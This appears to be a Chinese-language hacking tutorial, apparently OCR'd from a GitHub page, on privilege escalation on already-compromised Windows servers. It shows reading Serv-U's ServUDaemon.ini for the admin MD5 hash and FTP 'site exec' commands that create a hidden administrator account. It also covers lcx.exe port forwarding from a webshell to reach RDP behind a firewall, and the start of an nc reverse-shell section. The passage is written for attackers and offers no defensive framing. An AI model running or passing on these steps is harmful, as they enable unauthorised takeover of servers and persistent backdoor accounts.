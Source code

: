 这个文件里包含serv-u的md5密码：`C:\Program Files\RhinoSoft.com\Serv-U\\ServUDaemon.ini`

找到这个文件：ServUDaemon.ini 打开找到：

```bash
LocalSetupPassword=nqFCE64E0056362E8FCAF813094EC39BC2
```

再拿md5密文去解密，再用现在的密码登陆提权即可。

serv-u提权的前提是43958端口开了，且知道帐号密码！

如果帐号密码默认，直接用shell里面的serv-u提权功能即可搞定，建议用aspx马、php马去提权，因为可以看回显。

530说明密碼不是默认的,回显330说明成功，900说明密码是默认的……………..

在程序里找个快捷方式，或是相关的文件进行下载到本地，再查看文件的属性，就可以找到serv-u的安装目录了。

目录有修改权限之serv-u提权：

找到serv-u的目录，再找到用户的配置文件ServUDaemon.ini，直接增加一个用户代码，保存！

接着本地cmd命令：ftp 服务器ip

回车，输入帐号密码再回车………………….

接着先试试普通的cmd命令提权，不行的话就使用ftp提权的命令：

```bash
Quote site exec net user jianmei daxia /add   增加一个用户
Quote site exec net localgroup administrators jianmei /add   提升到管理员权限
200 EXEC command successful (TID=33).   执行成功的回显信息
Maintenance=System   权限类型多加一行指定新加帐号为系统管理员
```

`ReloadSettings=True `  在修改ini文件后需加入此项，这时serv-u会自动刷新配置文件并生效

## 端口转发 

什么情况下适合转发端口？

1.服务器是内网，我们无法连接。
2.服务器上有防火墙，阻断我们的连接。

转发端口的前提，我们是外网或是有外网服务器。

找个可读可写目录上传lcx.exe

本地cmd命令：`lcx.exe -listen 1988 4567  （监听本地1988端口并转发到4567端口）`

接着shell命令：`/c c:\windows\temp\cookies\lcx.exe -slave 本机ip 1988 服务器ip 3389  （把服务器3389端口转发到本地4567端口）`

之后本地连接：127.0.0.1:4567  (如果不想加上:4567的话，本地执行命令的时候，把4567换成3389来执行就行了)

以上是本机外网情况下操作，接着说下在外网服务器里如何操作：

上传lxc.exe cmd.exe到服务器且同一目录，执行cmd.exe命令：lcx.exe -listen 1988 4567

接着在aspxshell里点击端口映射，远程ip改为站点的ip，远端口程填1988，点击映射端口，接着在服务器里连接127.0.0.1:4567就可以了。
(( nc反弹提权 ))

当可以执行net user，但是不能建立用户时，就可以用NC反弹提权试下，特别是内网服务器，最好用NC反弹提权。
